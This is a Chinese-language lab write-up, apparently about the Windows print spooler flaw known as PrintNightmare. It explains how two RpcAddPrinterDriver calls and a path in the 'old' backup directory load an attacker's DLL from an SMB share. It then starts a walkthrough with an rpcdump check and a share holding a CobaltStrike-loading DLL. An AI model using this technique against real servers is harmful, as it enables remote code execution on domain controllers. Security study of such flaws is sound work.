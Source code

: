 一个显而易见的利用思路为调用两次 `RpcAddPrinterDriver`：

-  第一次调用时，使用 UNC 路径指定 B 为远程计算机上的文件，如`\10.211.55.7\share\Evil.dll`。Evil.dll 将会被拷贝至`C:\Windows\System32\spool\drivers\x64\3\Evil.dll`。
-  第二次调用时，指定 A 为`C:\Windows\System32\spool\drivers\x64\3\Evil.dll`。
-  理论上，`C:\Windows\System32\spool\drivers\x64\3\Evil.dll` 将会被加载。

但事实上，该利用思路在会第二次调用 RpcAddPrinterDriver 产生一个访问冲突的错误，RpcAddPrinterDriver 会将用户传入的 DLL 文件进行两次拷贝，该过程可以用如下表示：

A :` C:\Windows\System32\spool\drivers\x64\3\Evil.dll`
B : `XXX.DLL`
C : `C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_19a3fe50fa9a21b6\Amd64\UNIDRV.DLL`

第一次拷贝
`CopyFile( C:\Windows\System32\spool\drivers\x64\3\Evil.dll , C:\Windows\System32\spool\drivers\x64\3\new\Evil.dll )`
第二次拷贝
`CopyFile( C:\Windows\System32\spool\drivers\x64\3\Evil.dll , C:\Windows\System32\spool\drivers\x64\3\Evil.dll )`

可以发现当 A.dll 第二次被拷贝时，会产生拷贝的源文件与目标文件相同的情况，这将导致两次打开文件句柄的操作作用于相同文件，第一次以读权限，第二次以写权限，这将产生一个访问冲突的问题，导致利用失败，同理当 A 被指定为`C:\Windows\System32\spool\drivers\x64\3\new\Evil.dll `时，也会在第一次拷贝时产生访问冲突的问题。

为了解决这一问题，攻击者必须将 A 或 C 指定为`C:\Windows\System32\spool\drivers\x64\3`和`C:\Windows\System32\spool\drivers\x64\3\New` 目录之外的文件。在对打印机的行为监控时，我们观察到每当新的打印机驱动文件被添加时，打印机服务会对新添加的打印机驱动文件进行备份，将其拷贝至`C:\Windows\System32\spool\drivers\x64\3\old*`目录下，`*`为一个数字。因此，我们可以改进上述的利用步骤，在第二次调用 RpcAddPrinterDriver 时，指定A 为` C:\Windows\System32\spool\drivers\x64\3\old*\Evil.dll`，如此便可以实现远程任意代码执行。

## 漏洞利用

实验环境如下：

• 域控 Server 2019：10.211.55.14
• Windows 匿名共享主机：10.211.55.7
• 域内有效普通域用户：xie\hack P@ss1234

### 1. 检测是否存在漏洞

使用 rpcdump.py 脚本执行如下命令检测目标机器是否开启 MS-RPRN 服务，存在即可以尝试利用：

```
python3 rpcdump.py @10.211.55.14 | grep MS-RPRN
```

如图所示，可以看到目标 10.211.55.14 开启了 MS-RPRN 服务。

![截图](5bc4cc17e619d9106901d839f7f8cd49.png)

### 2.创建匿名 SMB 共享

探测到目标开启了 MS-RPRN 服务后，就可以开始后续的利用了。首先得搭建一个匿名的 SMB 共享，在该匿名共享中放入我们制作的 1.dll 恶意文件，1.dll 恶意文件的功能是上线 CobaltStrike。
